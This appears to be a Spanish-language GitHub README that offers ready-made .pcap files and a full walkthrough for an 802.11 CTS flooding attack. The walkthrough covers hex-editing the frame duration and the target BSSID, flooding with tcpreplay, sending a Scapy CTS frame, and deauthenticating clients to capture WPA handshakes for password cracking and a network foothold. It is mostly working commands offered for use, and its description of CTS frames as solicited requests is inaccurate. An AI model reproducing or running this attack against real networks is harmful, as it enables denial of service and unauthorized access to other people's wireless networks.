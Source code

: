 # WiFi-CTS-Frame-Attack-802.11-Frame

A funny .pcap of a 802.11 CTS Control Frame I made with 30000 (max duration) to perform WiFi CTS Attacks
---

### Introducción

- Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN creando contención via Flooding de `CTS Frames` con su máximo `Duration`, esto genera un tipo de `DoS` en el WiFi. Esto puede generar comportamientos irregulares en la red, como deautenticar clientes. 

- El propósito es deautenticar clientes para al final capturar un 4-way-handshake (similar a un deauth attack) y así poder crackear el password e ingresar a la red, a partir de ahí se crea el foothold para post-exploit de red. 

Un ataque CTS frame es un tipo de ataque de red inalámbrica que busca explotar una vulnerabilidad en el protocolo de control `control frame 802.11 CTS (Clear to Send)` utilizado por el estándar de comunicación inalámbrica IEEE 802.11.

En este tipo de ataque, un atacante envía una gran cantidad de paquetes falsificados al dispositivo objetivo, cada uno de los cuales solicita una respuesta de tipo CTS. Al inundar al dispositivo objetivo con tantas solicitudes, el atacante puede abrumar su capacidad de respuesta, lo que puede provocar una caída en la conexión o retrasos en la comunicación.

El ataque CTS frame es una técnica de ataque de denegación de servicio (DoS) que tiene como objetivo interrumpir o interferir con la conexión inalámbrica de un dispositivo objetivo mediante la saturación de solicitudes falsificadas de tipo CTS.

---

### Instrucciones

Existen 2 files listos para la diversión:

1. [Fz3r0_CTS_808.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808.pcap) - Este es un CTS raw capturado, sin modificar ni nada (excelente para hacer tampering de 0)
2. [Fz3r0_CTS_808_30000duration_attack.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808_30000duration_attack.pcap) - Este esn un CTS ya modificado con el Duration en 30000 (máximo válido para un CTS)

Solo es necesario inyectarlo a la red en forma de flood al BSS que quieras atacar, por ejemplo:

```sh
tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null
```

- OJO!!! Hay que hacer modificación HEX para agregar la MAC/BSS de la WLAN a atacar

---

### PoC 

- Prove of Concept de ataque capturado en `pcapng`

[Ataqu-CTS-full-capturado-2devices.zip](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/files/11228557/Ataqu-CTS-full-capturado-2devices.zip)

Evidencias: 

- Nota: La manera más fácil de filtrarlos es buscando el BSS tanto en source y destination e identifical los EAPOL por el código de colores de `BlackShark`:

````java
wlan.addr == 30:45:96:d7:f2:3e
````

1. PC-1 - Handshake Capture

![image](https://user-images.githubusercontent.com/94720207/231935562-00b0eedc-1f31-463e-bd73-82cf725eab7e.png)

2. PC-2 - Handshake Capture

![image](https://user-images.githubusercontent.com/94720207/231935681-b6951a34-0aa4-43be-9831-feda10eac9fe.png)


```sh

## CTS = Clear To Send (Control Frames) Attack

    ## - Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN

    ## - El propósito es deautenticar clientes para al final capturar un handshake (similar a un deauth attack)

# INSTRUCCIONES:    

# 1. Monitorizar la red (ventana A + Save audit .cap) 

    # Ojo: no debe ser tan avanzado y auditoado realmente, solo quiero paturar el CTS, pero para tener ya toda la red para atacar desde un inicio :P (mas adelante necesito el BSS para inyectar el frame anyway)

airmon-ng check kill && airmon-ng start wlan0mon && airmon-ng check kill && airmon-ng start wlan0mon && airodump-ng -c 6 --bssid 30:45:96:D7:F2:3E --write Fz3r0_WiFi_Log wlan0

# 2. Ahora hay que crear, farmear o modificar... un Frame CTS con Duration (microsegundos) muy largo

#     - Lo extraigo de Wireshark farmeando cualquier cosa en la red o de una captura vieja 802.11

# Ejemplo: 

    # Escuchar con Wireshark y buscar CTS con:  >>> wlan.fc.type_subtype == 28 <<<

    # El lugar donde esta el duration en 802.11 frame > CTS > Flags > Duration (Hasta abajo) >>> wlan.duration <<<

    # Seleccionar el frame que quiera, y apuntar bien su Duration!!! p.e.: 556 (ss)

    # Wireshark > File > Export Specified packets > "Fz3r0_CTS_556.pcap"   REVISAR BIEN EXPORTAR "ONLY SELECTED" Y "PCAP (NO NEW GEN)"

# - Abrir ghex con el .pcap creado: 

ghex Fz3r0_CTS_808.pcap  

# - La mejor manera de revisar el duration es abrir ese mismo frame con wireshark y darle click y ya!!! tan facil

# - Las 2 veces que revisé era después del par 6 de derecha a izquierda: (00 2c)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 2c 02 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# - Se puede comprobar con Python, por ejemplo:

     # 1 - Sacar el valor little indian (derecha izquierda en pares)

     # 2c 02 = 02 2c

     # 1- Comprobar con python en formato HEX: 0x2c00

# inicio consola python
python3

# En consola python
0x022c

    # Resultado, si fue igual a 556, entonces compruebo ese es el duration en hex

        # >>> 0x022c
        # 556

# 3. Ahora hay que modificar el frame para poner el máximo duration posible de un CTS (30000 ss) 
    
    # Esto va a crear contención artificial ;) 

# inicio consola python
python3

# En consola python
hex(30000)

    # Resultado = 0x7530 

        # >>> hex(30000)
        # '0x7530'

    # Little indian (reversa ahora) = 30 75

    # Entonces ahora el HEX quedaría así

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# En caso de haber cerrado ghex, volverlo a abrir 

ghex Fz3r0_CTS_808.pcap 

# 1. Modificación de Frame (solo dar doble click y modificar los 2 pares [30 75])

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --  

# 2. Modificar la MAC del BSS (AP) que quiero atacar 30:45:96:D7:F2:3E (si el primer frame se capturo de esa MAC entonces será la misma)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 30 45 96 D7 F2 3E               ....,.$.E7..
###                               -- -- -- -- -- -- 

# 3. Guardar el archivo como un nuevo .pcap (este puede servir en un futuro, solo se necesita cambiar el BSS ;))

    # Save As: Fz3r0_CTS_808_30000duration_attack.pcap

# 4. Validar con wireshark el frame y su duración

wireshark Fz3r0_CTS_808_30000duration_attack.pcap 

    # En mi caso ahora el duration y Receiver Address dice: 

    # Duration:          30000

    # Receiver Address:  30:45:96:D7:F2:3E

    # FCS: Ese puede que marque error pero el frame será válido (recordar que algunas interfaces no capturan FCS como la Panda)

# 2. Inyectar el Frame CTS modificado con TCP Replay  

    # -- topspeed (que lo haga al maximo de velocidad)

    # -- loop (cantidad de frames a enviar)

tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null

# Se puede validar con <<< wlan.duration == 30000 >>> y se verán los paquetes boom!!!

    # En este punto se pudieron haber ya deautenticado dispositivos en el BSS atacado

````

### Crear CTS con Scappy

````py

# aun no he logrado modificar el duration, pero esto lanza un CTS real ;) 

from scapy.all import *

type_field = 12
subtype_field = 12
FCfield_field = 0
ID_field = 0
addr1_field = "00:11:22:33:44:55"
addr2_field = "aa:bb:cc:dd:ee:ff"
addr3_field = "ff:ee:dd:cc:bb:aa"
SC_field = 0

pkt = RadioTap() / Dot11(type=type_field, subtype=subtype_field, FCfield=FCfield_field, ID=ID_field, addr1=addr1_field, addr2=addr2_field, addr3=addr3_field, SC=SC_field)

print(pkt.summary())

# Enviar el paquete creado
sendp(pkt, iface="wlan0mon", count=1)

````

---

### Ejemplo de ghex como quedaría el tamper al final: 

![image](https://user-images.githubusercontent.com/94720207/231923676-45c90520-c7fe-41e2-928e-d164a2bd3afc.png)

